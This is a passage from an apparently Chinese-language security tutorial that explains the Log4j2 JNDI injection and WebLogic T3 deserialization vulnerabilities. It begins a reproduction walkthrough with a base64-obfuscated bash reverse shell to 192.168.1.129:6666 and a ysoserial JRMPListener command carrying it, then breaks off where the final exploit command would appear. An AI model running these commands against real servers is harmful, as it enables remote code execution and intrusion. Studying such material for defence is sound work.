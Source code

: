 ```
}
}
```

# Log4j2  
## 漏洞原理  
  
log4j2框架下的**lookup查询服务**  
提供了**{}**字段解析功能，传进去的值会被直接解析。例如**  
${java:version}**会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）。  
  
攻击者可以利用这一点进行**JNDI注入**  
，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的**.class对象**，造成了远程代码执行（可反弹shell到指定服务器）。  
# Weblogic  
## T3反序列化漏洞  
  
**Weblogic Server中的RMI 通信使用T3协议在Weblogic Server和其它Java程序（客户端或者其它Weblogic Server实例）之间传输数据, 服务器实例会跟踪连接到应用程序的每个Java虚拟机（JVM）中, 并创建T3协议通信连接, 将流量传输到Java虚拟机. T3协议在开放WebLogic控制台端口的应用上默认开启. 攻击者可以**  
  
**通过T3协议发送恶意的的反序列化数据, 进行反序列化, 实现对存在漏洞的weblogic组件的远程代码执行攻击。**  
### 漏洞复现  
  
准备反弹shell指令如下  

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}
//Base64编码的内容为bash -i >& /dev/tcp/192.168.1.129/6666 0>&1
```

  
接下来开启监听  
  
![image-20230420135029363](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5CNGI1PXgvMGxgV58DSnmld9rcRhw49pUibYbeTticjDpqFQoUkicLab4A/640?wx_fmt=png&from=appmsg "")  
  
接下来利用反序列化工具**ysoserial.jar**  

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener9999CommonsCollections1'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}'
```

  
![image-20230420141739301](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5l3J6eU1kz2Kk6pfSOPbvjn2Hyt5hOjum19dKOGUHNsYluaZpd953FA/640?wx_fmt=png&from=appmsg "")  
  
接下来下载Exp进行攻击，  
  
**Exp地址：https://www.exploit-db.com/exploits/44553**  
  
复制代码到**Exploit.py**  
中，接下来执行如下指令  
